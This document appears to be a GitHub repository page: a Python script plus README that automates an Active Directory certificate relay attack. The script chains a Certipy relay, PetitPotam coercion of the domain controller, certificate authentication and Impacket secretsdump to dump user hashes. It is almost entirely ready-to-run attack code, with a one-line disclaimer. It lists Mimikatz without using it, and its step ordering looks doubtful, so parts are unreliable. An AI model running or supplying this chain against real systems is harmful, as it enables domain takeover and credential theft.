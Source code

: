 ## Certificate Exploitation Automation Script

Below is a Python script that automates the process of certificate exploitation using tools like Certipy, PetitPotam, and Mimikatz. This script is designed to run on a system with these tools installed and properly configured.

```python
import os
import subprocess
import getpass

def run_command(command):
    process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    stdout, stderr = process.communicate()
    return stdout.decode('utf-8'), stderr.decode('utf-8')

def setup_certipy_relay(dc_ip, ca_server):
    command = f"certipy relay -dc-ip {dc_ip} -ca {ca_server}"
    return run_command(command)

def coerce_authentication(listener_ip, target_ip, username, password):
    command = f"python3 PetitPotam.py -u {username} -p {password} {listener_ip} {target_ip}"
    return run_command(command)

def acquire_certificate(username, domain, dc_ip, certificate_path):
    command = f"certipy auth -username {username} -domain {domain} -dc-ip {dc_ip} -pfx {certificate_path}"
    return run_command(command)

def dump_user_hashes(domain, username, target_ip, hash):
    command = f"impacket-secretsdump {domain}/{username}@{target_ip} -hashes {hash}"
    return run_command(command)

def main():
    dc_ip = input("Enter the Domain Controller IP: ")
    ca_server = input("Enter the CA Server Name: ")
    listener_ip = input("Enter the Listener IP: ")
    target_ip = input("Enter the Target IP: ")
    username = input("Enter the Username: ")
    password = getpass.getpass("Enter the Password: ")
    domain = input("Enter the Domain: ")
    certificate_path = input("Enter the Path to Certificate: ")
    hash = input("Enter the Hash: ")

    print("Setting up Certipy Relay...")
    setup_output, setup_error = setup_certipy_relay(dc_ip, ca_server)
    print("Output:", setup_output)
    print("Error:", setup_error)

    print("Coercing Authentication with PetitPotam...")
    auth_output, auth_error = coerce_authentication(listener_ip, target_ip, username, password)
    print("Output:", auth_output)
    print("Error:", auth_error)

    print("Acquiring Certificate...")
    cert_output, cert_error = acquire_certificate(username, domain, dc_ip, certificate_path)
    print("Output:", cert_output)
    print("Error:", cert_error)

    print("Dumping User Hashes...")
    dump_output, dump_error = dump_user_hashes(domain, username, target_ip, hash)
    print("Output:", dump_output)
    print("Error:", dump_error)

if __name__ == "__main__":
    main()
```

## README for GitHub

### Certificate Exploitation Automation

This repository contains a Python script to automate the process of exploiting digital certificates using various tools. The script performs tasks such as setting up a relay with Certipy, coercing authentication with PetitPotam, acquiring certificates, and dumping user hashes.

#### Prerequisites

- Python 3.x
- Certipy
- PetitPotam
- Mimikatz
- Impacket

#### Installation

1. **Clone the repository:**
    ```bash
    git clone https://github.com/yourusername/certificate-exploitation-automation.git
    cd certificate-exploitation-automation
    ```

2. **Install required tools:**
    - **Certipy:** [Certipy Installation Guide](https://github.com/ly4k/Certipy)
    - **PetitPotam:** [PetitPotam Installation Guide](https://github.com/topotam/PetitPotam)
    - **Mimikatz:** [Mimikatz Installation Guide](https://github.com/gentilkiwi/mimikatz)
    - **Impacket:** [Impacket Installation Guide](https://github.com/SecureAuthCorp/impacket)

3. **Install Python dependencies:**
    ```bash
    pip install -r requirements.txt
    ```

#### Usage

1. **Run the script:**
    ```bash
    python exploit.py
    ```

2. **Follow the prompts to enter the required information:**
    - Domain Controller IP
    - CA Server Name
    - Listener IP
    - Target IP
    - Username
    - Password
    - Domain
    - Path to Certificate
    - Hash

#### Script Functionality

The script performs the following tasks:
1. **Setup Certipy Relay:**
    - Sets up a relay using Certipy to intercept and relay authentication requests.
2. **Coerce Authentication:**
    - Uses PetitPotam to coerce the domain controller into authenticating against the attacker's server.
3. **Acquire Certificate:**
    - Uses Certipy to obtain the certificate of the domain controller's machine account.
4. **Dump User Hashes:**
    - Utilizes Impacket's secretsdump tool to dump user hashes from the domain controller.

#### Security Warning

This script is intended for educational purposes and authorized penetration testing only. Unauthorized use of this script may be illegal and unethical. Use responsibly.

#### Contribution

Contributions are welcome! Please fork the repository and submit a pull request with your changes.

#### License

This project is licensed under the MIT License. See the LICENSE file for details.

---

By following the instructions provided, you can automate the process of exploiting digital certificates within a network environment for educational or authorized testing purposes.